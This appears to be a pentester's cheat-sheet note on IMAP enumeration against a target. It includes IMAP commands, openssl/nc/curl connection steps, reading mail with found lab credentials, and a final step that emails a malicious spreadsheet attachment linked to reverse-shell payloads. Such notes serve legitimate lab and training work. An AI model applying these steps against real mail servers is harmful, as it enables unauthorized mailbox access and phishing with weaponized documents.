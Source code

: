 #### IMAP Commands

|**Command**|**Description**|
|---|---|
|`1 LOGIN username password`|User's login.|
|`1 LIST "" *`|Lists all directories.|
|`1 CREATE "INBOX"`|Creates a mailbox with a specified name.|
|`1 DELETE "INBOX"`|Deletes a mailbox.|
|`1 RENAME "ToRead" "Important"`|Renames a mailbox.|
|`1 LSUB "" *`|Returns a subset of names from the set of names that the User has declared as being `active` or `subscribed`.|
|`1 SELECT INBOX`|Selects a mailbox so that messages in the mailbox can be accessed.|
|`1 UNSELECT INBOX`|Exits the selected mailbox.|
|`1 FETCH <ID> all`|Retrieves data associated with a message in the mailbox.|
|`1 CLOSE`|Removes all messages with the `Deleted` flag set.|
|`1 LOGOUT`|Closes the connection with the IMAP server.|

#### OpenSSL - TLS Encrypted Interaction IMAP
```
openssl s_client -connect $TARGET:imaps

```

If you are able to connect using openssl type the following commands to login and read Inbox:
```
a001 LOGIN username password
```
Once Logged in type the following to list the content
```
a002 LIST "" *
```

If you find a the inbox use this command to access it"
```
a003 select INBOX
```

If there is an email that exist run the following command to display the content:
```
a004 FETCH 1 BODY.PEEK[]
```


```shell-session
curl -k 'imaps://$TARGET' --user username:pasword -v
```

This example will show with existing found creds, jonas : SicMundusCreatusEst
#### Reading emails
```bash - kali
nc $TARGET 143
```

```bash - kali
tag login jonas@localhost SicMundusCreatusEst
```

```bash - kali
tag LIST "" "*"
```

```bash - kali
tag SELECT INBOX
```

Notice there are 5 total messages.

```bash - kali
tag STATUS INBOX (MESSAGES)
```

```bash - kali
tag fetch 1 (BODY[1])
```

We can read the rest of the messages with the following command:

```bash - kali
tag fetch 2:5 BODY[HEADER] BODY[1]
```


#### Send malicious email

Below, we are sending a malicious email with attachments from:
[[0._Reverse shells (WEB)#odt LibreOffice]]
OR
[[0._Reverse shells (WEB)#hta - ods LibreOffice]]

![[rlwrap]]

```
sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s $TARGET:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a calc.ods
```




